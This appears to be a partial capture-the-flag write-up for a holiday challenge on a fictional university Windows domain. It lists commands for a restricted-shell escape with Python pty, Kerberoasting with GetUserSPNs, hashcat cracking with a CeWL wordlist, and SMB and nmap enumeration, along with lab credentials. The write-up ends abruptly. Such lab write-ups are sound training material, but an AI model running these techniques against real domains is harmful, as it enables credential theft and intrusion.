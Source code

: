 ## Summary
This challenge opens up after finishing challenge 7 - Printer Exploitation. \
"Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the ElfU Portal (https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints."

From the challenge name and description, we know this will be a Windows domain and that we'll have to pivot/auth to the various hosts in the domain in order to find the secret sleigh research doc.

Eve Snowshoe will give you a hint after you finish the HoHoNo Fail2Ban challenge in Santa's office. Here's his hint:


## Steps
1. Go to https://register.elfu.org/
2. Register with rocks4socks@elfu.org (found in registration page source code)
It returns access creds:
New Student Domain Account Creation Successful!
You can now access the student network grading system by SSH'ing into this asset using the command below:
ssh knuefahyyw@grades.elfu.org -p 2222
ElfU Domain Username: knuefahyyw
ElfU Domain Password: Sxdenyfaj#

### Shell escape
After SSHing in, run ctl d to escape into python, then get a tty interactive shell:

import pty;pty.spawn('/bin/bash')

### Kerberoasting
python3 GetUserSPNs.py elfu.local/knuefahyyw:Sxdenyfaj# -outputfile out.txt

### Hash Cracking
```
git clone https://github.com/digininja/CeWL.git
docker build -t cewl .
docker run -it --rm -v "${PWD}:/host" cewl -w out.txt --with-numbers https://register.elfu.org/register
./hashcat/hashcat -m 13100 hash.txt CeWL/out.txt --rules OneRuleToRuleThemAll.rule
echo "Snow2021!"
```




`nmblookup -A 172.17.0.4`
`smbclient -L \\iuiqfqxwoj -I 172.17.0.4 -N`

nmap 10.128.3.30 -sV -sC > dc.txt

